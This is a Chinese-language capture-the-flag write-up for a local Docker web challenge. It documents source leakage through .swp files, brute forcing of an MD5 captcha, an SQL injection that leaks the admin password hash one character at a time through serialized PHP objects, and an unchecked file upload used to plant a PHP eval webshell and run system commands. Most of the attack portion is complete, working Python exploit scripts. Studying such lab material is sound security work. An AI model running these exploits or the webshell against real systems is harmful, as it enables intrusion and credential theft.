

# gettheshell

1. 启动容器

    ```bash
    $ docker run -p 11027:80 jaivyweb:v1.0
    ```

1. 访问<http://127.0.0.1:11027>, 自动跳转到<http://127.0.0.1:11027/index.php?action=login>, 输入参数用户名, 密码, 验证码, 登录  

1. 查看源码, 与页面一致
1. 修改URL, 直接输入flag, 显示欢迎语  

1. Cookies中只有一个PHPSESSID
1. 没有robots.txt

## 源码泄露

利用

```bash
$ python3 dirsearch.py -u http://127.0.0.1:11027 -e *

$ cat reports/127.0.0.1/19-08-24_11-26-18 | grep 200
```

扫描服务器还有哪些文件, 发现存在`.swp`文件

```bash hl_lines="2"
$ cat 19-08-17_16-45-47 | grep 200
200    16KB  http://127.0.0.1:11027/.config.php.swp
200     0B   http://127.0.0.1:11027/config.php
200    83KB  http://127.0.0.1:11027/phpinfo.php
200   934B   http://127.0.0.1:11027/upload/
200     0B   http://127.0.0.1:11027/upload/test.txt
200     0B   http://127.0.0.1:11027/user.php
```


尝试把`.index.php.swp`, `.config.php.swp`, `.user.php.swp`下载下来

使用`vim -r index.php`查看源码

审计源码在`index.php`中发现require `user.php`, 还会通过GET参数中的action require `views`目录中的 `delete|index|login|logout|phpinfo|profile|publish|register`, 其他参数都会显示欢迎语

在`user.php`中发现需要下载`user.php.bak`, `user.php`中require `config.php`

```python
#coding=utf-8
# import requests
import urllib
import os
os.system('mkdir source')
os.system('mkdir source/views')
file_list=['.index.php.swp','.config.php.swp','.user.php.swp','user.php.bak','views/.delete.swp','views/.index.swp','views/.login.swp','views/.logout.swp','views/.profile.swp','views/.publish.swp','views/.register.swp']
part_url='http://127.0.0.1:11027/'
for i in file_list:
    url=part_url+i
    print('download %s ' % url)
    os.system('curl '+url+'>source/'+i)
```

使用`register`注册

## 破解md5验证码

### 多线程破解

```python
import hashlib
from multiprocessing.dummy import Pool as ThreadPool

# MD5截断数值已知 求原始数据
# 例子 substr(md5(captcha), 0, 6)=60b7ef

def md5(s):  # 计算MD5字符串
    return hashlib.md5(str(s).encode('utf-8')).hexdigest()


keymd5 = 'f04f0'   #已知的md5截断值
md5start = 0   # 设置题目已知的截断位置
md5length = 5

def findmd5(sss):    # 输入范围 里面会进行md5测试
    key = sss.split(':')
    start = int(key[0])   # 开始位置
    end = int(key[1])    # 结束位置
    result = 0
    for i in range(start, end):
        # print(md5(i)[md5start:md5length])
        if md5(i)[md5start:md5length] == keymd5:            # 拿到加密字符串
            result = i
            print(result)    # 打印
            break


list=[]  # 参数列表
for i in range(1):   # 多线程的数字列表 开始与结尾
    list.append(str(10000000*i) + ':' + str(10000000*(i+1)))
pool = ThreadPool()    # 多线程任务
pool.map(findmd5, list) # 函数 与参数列表
pool.close()
pool.join()
```

### 生成字典

```python
def get_code_dict():
    c = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|'
    captchas = [''.join(i) for i in product(c, repeat=3)]

    print('[+] Genering {} captchas...'.format(len(captchas)))
    with open('captchas.txt', 'w') as f:
        for k in captchas:
            f.write(hashlib.md5(k.encode('utf-8')).hexdigest()+' --> '+k+'\n')
```

使用`login`登录, 到`index`.

`publish`允许输入两个参数`signature`和`mood`  


在`index`页面显示  


`delete`删除, `logout`退出

继续审计源码, 在`register()`和`login()`中发现用户表`ctf_users`结构, 存在`is_admin`字段  


在`publish()`中, 如果`is_admin`非0, 存在上传文件操作  


## SQL注入

在`publish()`中, 往`ctf_user_signature`表中插入数据

1. 用`mood`参数实例化`Mood`, 并调用`serialize()`把`Mood`序列化
1. `signature`参数直接传入


`get_column()`将`$columns`添加反引号逗号`` `userid`,`username`,`signature`,`mood` ``

对于`$value`, 拼接`(...)`, 并且一对反引号中的内容如果不存在反引号+逗号, 就把反引号改为单引号


!!! danger "调用`insert`往数据库中插入数据, SQL语句拼接, 且`signature`可控"

> SQL注入在查询语句中: 1. 绕过认证, 2. 泄露敏感信息  
> 通过select语句查询出敏感信息, 作为insert语句的子句插入到数据库中, 再利用显示页面泄露

### 插入时截断`signature`, 利用`mood`字段泄露`admin`密码


显示页面会将`mood`转换成`int`类型, 但是admin的密码是字符串

只能利用SQL中的`substr()`, 注入时插入多条记录, 每条泄露一个字符


> MD5定长32字节

### 反序列化

```php
<?php
// 定义类
class Cl{
    var $test = "hello";
    var $age = 3;
}
$c = new Cl();
// 序列化
$sc = serialize($c);
// object:类名长度:类名:属性数量:{s属性类型字符串:属性名称;s属性类型字符串:属性值;s属性类型字符串:属性名称;i属性类型整型:属性值}
// O:2:"Cl":2:{s:4:"test";s:5:"hello";s:3:"age";i:3;}
print_r($sc);
echo "<br>";
// 反序列化
$uc = unserialize($sc);
// hello
print_r($uc->test);
?>
```


### payload

```python
import re
import requests
import subprocess

_target='http://127.0.0.1:11027/index.php?action='

def solve_code(html):
    code = re.search(r'Code\(substr\(md5\(\?\), 0, 5\) === ([0-9a-f]{5})\)', html).group(1)
    solution = subprocess.check_output(['grep', '^'+code, 'captchas.txt']).split()[2]
    return solution

def login(username, password):
    resp = sess.get(_target+'login')
    code = solve_code(resp.text)
    sess.post(_target+'login', data={'username':username,'password':password,'code':code})
    return True

def publish(sig, mood):
    return sess.post(_target+'publish', data={'signature':sig,'mood':mood})

sess = requests.Session()

username = 'long'
password = '123'

login(username, password)

// 1. 使用 `, 截断 signature
// 2. 在 ctf_users 表中查出 is_admin=1 的 password
// 3. 使用 substr() 每次取一个字符, 使用 ord() 返回字符的ASCII码
// 4. 使用 concat() 拼接为序列化后的 Mood
// 5. 使用 -- 截断后面的SQL语句
i = 1
mood = '(select concat(`O:4:\"Mood\":3:{{s:4:\"mood\";i:`,ord(substr(password,{},1)),`;s:2:\"ip\";s:14:\"80.212.199.161\";s:4:\"date\";i:1520664478;}}`) from ctf_users where is_admin=1 limit 1)'.format(i)
payload = 'a`, {}); -- -'.format(mood)
# a`, (select concat(`O:4:"Mood":3:{s:4:"mood";i:`,ord(substr(password,1,1)),`;s:2:"ip";s:14:"80.212.199.161";s:4:"date";i:1520664478;}`) from ctf_users where is_admin=1 limit 1)); -- -
print(payload)
resp = publish(payload, '0')
```


### POC

```python
#coding=utf-8
import re
import string
import random
import requests
import subprocess
import hashlib
from itertools import product

_target='http://127.0.0.1:11027/index.php?action='

def get_code_dict():
    c = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|'
    captchas = [''.join(i) for i in product(c, repeat=3)]

    print('[+] Genering {} captchas...'.format(len(captchas)))
    with open('captchas.txt', 'w') as f:
        for k in captchas:
            f.write(hashlib.md5(k.encode('utf-8')).hexdigest()+' --> '+k+'\n')

def get_creds():
    username = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    password = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    return username, password

def solve_code(html):
    code = re.search(r'Code\(substr\(md5\(\?\), 0, 5\) === ([0-9a-f]{5})\)', html).group(1)
    solution = subprocess.check_output(['grep', '^'+code, 'captchas.txt']).split()[2]
    return solution

def register(username, password):
    resp = sess.get(_target+'register')
    code = solve_code(resp.text)
    sess.post(_target+'register', data={'username':username,'password':password,'code':code})
    return True

def login(username, password):
    resp = sess.get(_target+'login')
    code = solve_code(resp.text)
    sess.post(_target+'login', data={'username':username,'password':password,'code':code})
    return True

def publish(sig, mood):
    return sess.post(_target+'publish', data={'signature':sig,'mood':mood})

get_code_dict()

sess = requests.Session()
username, password = get_creds()
print('[+] register({}, {})'.format(username, password))
register(username, password)
print('[+] login({}, {})'.format(username, password))
login(username, password)
print('[+] user session => ' + sess.cookies.get_dict()['PHPSESSID'])

for i in range(1,33): # we know password is 32 chars (md5)
    mood = '(select concat(`O:4:\"Mood\":3:{{s:4:\"mood\";i:`,ord(substr(password,{},1)),`;s:2:\"ip\";s:14:\"80.212.199.161\";s:4:\"date\";i:1520664478;}}`) from ctf_users where is_admin=1 limit 1)'.format(i)
    payload = 'a`, {}); -- -'.format(mood)
    resp = publish(payload, '0')

resp = sess.get(_target+'index')
moods = re.findall(r'img/([0-9]+)\.gif', resp.text)[::-1] # last publish will be read first in the html
admin_hash = ''.join(map(lambda k: chr(int(k)), moods))

print('[+] admin hash => ' + admin_hash)
```


泄露出admin的密码为`c991707fdf339958eded91331fb11ba0`

使用[查MD5](http://www.chamd5.org/)md5解密为`jaivypassword`

## webshell


代码无校验, 直接上传PHP一句话木马: `<?php @eval($_POST[cmd]);?>`

访问上传的`shell.php`, 使用`system('find / -name "*flag*"');`查找flag文件

```python
import re
import sys
import string
import random
import requests
import subprocess
from itertools import product
import hashlib
from itertools import product

_target = 'http://127.0.0.1:11027/'
_action = _target + 'index.php?action='

def get_code_dict():
    c = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|'
    captchas = [''.join(i) for i in product(c, repeat=3)]

    print('[+] Genering {} captchas...'.format(len(captchas)))
    with open('captchas.txt', 'w') as f:
        for k in captchas:
            f.write(hashlib.md5(k.encode('utf-8')).hexdigest()+' --> '+k+'\n')


def get_creds():
    username = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    password = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    return username, password

#code
def solve_code(html):
    code = re.search(r'Code\(substr\(md5\(\?\), 0, 5\) === ([0-9a-f]{5})\)', html).group(1)
    solution = subprocess.check_output(['grep', '^'+code, 'captchas.txt']).split()[2]
    return solution

def register(username, password):
    resp = sess.get(_action+'register')
    code = solve_code(resp.text)
    sess.post(_action+'register', data={'username':username,'password':password,'code':code})
    return True

def login(username, password):
    resp = sess.get(_action+'login')
    code = solve_code(resp.text)
    sess.post(_action+'login', data={'username':username,'password':password,'code':code})
    return True

def publish(sig, mood):
    return sess.post(_action+'publish', data={'signature':sig,'mood':mood})#, proxies={'http':'127.0.0.1:8080'})

def get_prc_now():
    # date_default_timezone_set("PRC") is not important
    return subprocess.check_output(['php', '-r', 'date_default_timezone_set("PRC"); echo time();'])

def get_admin_session():
    sess = requests.Session()
    resp = sess.get(_action+'login')
    code = solve_code(resp.text)
    return sess.cookies.get_dict()['PHPSESSID'], code

# get_code_dict()

# print('[+] creating user session')
sess = requests.Session()

username = 'admin'
password = 'jaivypassword'

print('[+] login({}, {})'.format(username, password))
login(username, password)

print('[+] user session => ' + sess.cookies.get_dict()['PHPSESSID'])

print('[+] uploading stager')
shell = {'pic': ('shell.php', '<?php @eval($_POST[cmd]);?>', 'image/jpeg')}
resp = sess.post(_action+'publish', files=shell)
print(resp.text)

webshell_url=_target+'upload/shell.php'
print('[+] shell => '+webshell_url+'\n')

post_data={"cmd":"system('find / -name \"*flag*\"');"}
resp = sess.post(url=webshell_url,data=post_data)
print(resp.text)

post_data={"cmd":"system('cat /etc/flag_is_He4e_89587236.txt');"}
resp = sess.post(url=webshell_url,data=post_data)
print(resp.text)
```


